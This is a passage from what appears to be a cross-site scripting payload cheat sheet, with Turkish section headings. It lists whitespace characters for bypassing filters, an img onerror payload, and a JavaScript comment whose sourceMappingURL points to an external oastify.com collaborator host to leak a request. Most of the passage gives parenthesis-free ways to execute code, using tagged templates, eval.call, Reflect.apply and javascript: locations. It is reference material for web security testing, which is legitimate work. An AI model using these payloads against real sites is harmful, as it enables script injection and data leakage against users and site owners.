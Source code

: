 ```javascript
//9,10,11,12,13,32,160,5760,8192,8193,8194,8195,8196,8197,8198,8199,8200,8201,8202,8232,8233,8239,8287,12288,65279

//Either the raw characters can be used or you can HTML encode them if they appear in SVG or HTML attributes:
<img/src/onerror=alert&#65279;(1)>
```
**Yorum içinde Javascript**
```javascript
//If you can only inject inside a JS comment, you can still leak something
//If the user opens DevTools request to the indicated sourceMappingURL will be send

//# sourceMappingURL=https://evdr12qyinbtbd29yju31993gumlaby0.oastify.com
```
**Parantezsiz JavaScript**
````javascript
// By setting location
window.location='javascript:alert\x281\x29'
x=new DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x
// or any DOMXSS sink such as location=name

// Backtips
// Backtips pass the string as an array of lenght 1
alert`1`

// Backtips + Tagged Templates + call/apply
eval`alert\x281\x29` // This won't work as it will just return the passed array
setTimeout`alert\x281\x29`
eval.call`${'alert\x281\x29'}`
eval.apply`${[`alert\x281\x29`]}`
[].sort.call`${alert}1337`
[].map.call`${eval}\\u{61}lert\x281337\x29`

// To pass several arguments you can use
function btt(){
console.log(arguments);
}
btt`${'arg1'}${'arg2'}${'arg3'}`

//It's possible to construct a function and call it
Function`x${'alert(1337)'}x```

// .replace can use regexes and call a function if something is found
"a,".replace`a${alert}` //Initial ["a"] is passed to str as "a," and thats why the initial string is "a,"
"a".replace.call`1${/./}${alert}`
// This happened in the previous example
// Change "this" value of call to "1,"
// match anything with regex /./
// call alert with "1"
"a".replace.call`1337${/..../}${alert}` //alert with 1337 instead

// Using Reflect.apply to call any function with any argumnets
Reflect.apply.call`${alert}${window}${[1337]}` //Pass the function to call (“alert”), then the “this” value to that function (“window”) which avoids the illegal invocation error and finally an array of arguments to pass to the function.
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`
// Using Reflect.set to call set any value to a variable
Reflect.set.call`${location}${'href'}${'javascript:alert\x281337\x29'}` // It requires a valid object in the first argument (“location”), a property in the second argument and a value to assign in the third.



````